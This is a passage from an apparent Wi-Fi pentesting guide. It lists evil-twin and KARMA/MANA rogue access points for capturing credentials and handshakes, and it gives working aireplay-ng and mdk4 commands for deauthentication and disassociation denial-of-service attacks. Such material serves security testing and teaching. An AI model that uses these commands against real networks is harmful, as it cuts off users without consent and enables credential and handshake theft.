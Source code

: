 WPA-PSK Evil Twin -- Useful to network attacks if you know the password

WPA-MGT -- Useful to capture company credentials

KARMA, MANA, Loud MANA, Known beacon

+ Open -- Useful to capture captive portal creds and/or perform LAN attacks

+ WPA -- Useful to capture WPA handshakes

DOS
Deauthentication Packets
Description from here:.

Deauthentication attacks, a prevalent method in Wi-Fi hacking, involve forging "management" frames to forcefully disconnect devices from a network. These unencrypted packets deceive clients into believing they are from the legitimate network, enabling attackers to collect WPA handshakes for cracking purposes or to persistently disrupt network connections. This tactic, alarming in its simplicity, is widely used and has significant implications for network security.

Deauthentication using Aireplay-ng

Copy
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
-0 means deauthentication

1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously

-a 00:14:6C:7E:40:80 is the MAC address of the access point

-c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then broadcast deauthentication is sent (not always work)

ath0 is the interface name

Disassociation Packets
Disassociation packets, similar to deauthentication packets, are a type of management frame used in Wi-Fi networks. These packets serve to sever the connection between a device (such as a laptop or smartphone) and an access point (AP). The primary distinction between disassociation and deauthentication lies in their usage scenarios. While an AP emits deauthentication packets to remove rogue devices explicitly from the network, disassociation packets are typically sent when the AP is undergoing a shutdown, restart, or relocating, thereby necessitating the disconnection of all connected nodes.

This attack can be performed by mdk4(mode "d"):

Copy
# -c <channel>
# -b victim_client_mac.txt contains the MAC address of the device to eliminate
# -e WifiName is the name of the wifi
# -B BSSID is the BSSID of the AP
# Notice that these and other parameters aare optional, you could give onli the ESSID and md4k will automatically search for it, wait for finding clients and deauthenticate them 
mdk4 wlan0mon d -c 5 -b victim_client_mac.txt -E WifiName -B EF:60:69:D7:69:2F
More DOS attacks by mdk4
In here.
